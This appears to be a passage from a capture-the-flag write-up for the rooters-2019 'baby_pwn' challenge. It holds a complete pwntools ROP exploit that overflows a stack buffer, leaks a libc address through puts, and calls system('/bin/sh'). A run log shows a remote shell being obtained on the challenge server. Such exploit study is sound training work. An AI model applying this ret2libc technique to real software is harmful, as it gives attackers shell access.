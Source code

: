 ```python
puts_got = elf.got['puts']
pop_rdi = 0x401223 # pop rdi; ret
ret = 0x40101a # ret
main = elf.symbols['main']

# For an explanation of the need for the ret gadget, please check the
# ROPEmporium Beginner's Guide under Common Pitfalls
#------------------------------------------------------
payload = 'A'*264 # Overflow to return address
payload += p64(ret) # This is needed here because of libc-2.27
payload += p64(pop_rdi) # Pop puts_got into rdi
payload += p64(puts_got)
payload += p64(puts) # Call puts(puts_got)
payload += p64(main) # Jump back to main

p.sendline(payload)

p.recvuntil('\n')

# Get puts libc leak and calculate important offsets
p.recvline()
leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
libc.address = leak - libc.symbols['puts']
system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))

log.info('Leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))

# Redo the exploit but call system('/bin/sh')
p.recv()
payload = 'A'*264
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/rooters-2019/baby_pwn$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/rooters-2019/baby_pwn/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/pwn-and-re-challenges/rooters-2019/baby_pwn/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 35.188.73.186 on port 1111: Done
[*] Leak: 0x7f94461419c0
[*] Libc base: 0x7f94460c1000
[*] system: 0x7f9446110440
[*] /bin/sh: 0x7f9446274e9a
[*] Switching to interactive mode
```